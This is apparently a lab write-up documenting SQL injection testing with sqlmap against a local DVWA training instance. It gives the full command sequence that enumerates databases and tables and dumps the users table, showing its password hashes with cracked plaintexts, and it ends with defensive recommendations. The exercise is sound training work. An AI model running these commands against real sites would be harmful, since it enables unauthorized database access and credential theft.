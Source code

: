 # SQLMap Penetration Testing Documentation

## Overview

This document contains details about the SQL injection testing performed on the target application, steps taken, commands executed, and results obtained.

## Prerequisites

- **Target**: http://192.168.1.7/dvwa
- **Tools Used**: SQLMap
- **Setup**:
  - DVWA running on a local environment.
  - Security level set to `low`.

## Step 1: Identify Vulnerabilities

### Command:

```bash
sqlmap -u "http://192.168.1.7/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "security=low; PHPSESSID=qhhbnclv8g0ummo85hrsjdr582; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada" --dbs
```

### Results:

- Identified injectable parameter: `id`.
- Databases discovered:
  - `dvwa`
  - `information_schema`

---

## Step 2: Select Target Database

### Command:

```bash
sqlmap -u "http://192.168.1.7/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "security=low; PHPSESSID=qhhbnclv8g0ummo85hrsjdr582; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada" -D dvwa --tables
```

### Results:

- Tables in `dvwa` database:
  - `guestbook`
  - `users`

---

## Step 3: Dump Table Data

### Dumping `users` Table

#### Command:

```bash
sqlmap -u "http://192.168.1.7/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "security=low; PHPSESSID=qhhbnclv8g0ummo85hrsjdr582; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada" -D dvwa -T users --columns
```

#### Results:

- Columns in `users` table:
  - `user_id`
  - `first_name`
  - `last_name`
  - `user`
  - `password`

---

### Dumping User Credentials

#### Command:

```bash
sqlmap -u "http://192.168.1.7/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "security=low; PHPSESSID=qhhbnclv8g0ummo85hrsjdr582; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada" -D dvwa -T users --dump
```

#### Results:

- Extracted Data:
  | user_id | user | password ||first_name | |first_name|
  |---------|-------------|-----------------------------------------||-----------| |----------|
  | 1 | admin | 21232f297a57a5a743894a0e4a801fc3 (admin) || admin | | admin |
  | 2 | guest | e99a18c428cb38d5f260853678922e03 (abc123) || Brown | | Gordon |
  | 3 | 1337 | 8d3533d75ae2c3966d7e0d4fcc69216b (charley) || Me | | Hack |
  | 4 | pablo | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein) || Picasso | | Pablo |
  | 5 | smithy | 5f4dcc3b5aa765d61d8327deb882cf99 (password) || Smith | | Bob |
  | 6 | user | ee11cbb19052e40b07aac0ca060c23ee (user) || user | | user |

---

## Step 4: Test Other Parameters

#### Testing All Parameters:

```bash
sqlmap -u "http://192.168.1.7/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "security=low; PHPSESSID=qhhbnclv8g0ummo85hrsjdr582; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada" --crawl=3 --batch
```

### Results:

- Additional vulnerabilities found in `guestbook` table:
  - Columns dumped successfully.

---

## Recommendations

1. Implement input validation to prevent SQL injection.
2. Use parameterized queries or prepared statements.
3. Restrict database user privileges.
4. Regularly update and patch web applications and database management systems.
5. Utilize a Web Application Firewall (WAF) to detect and block SQL injection attempts.
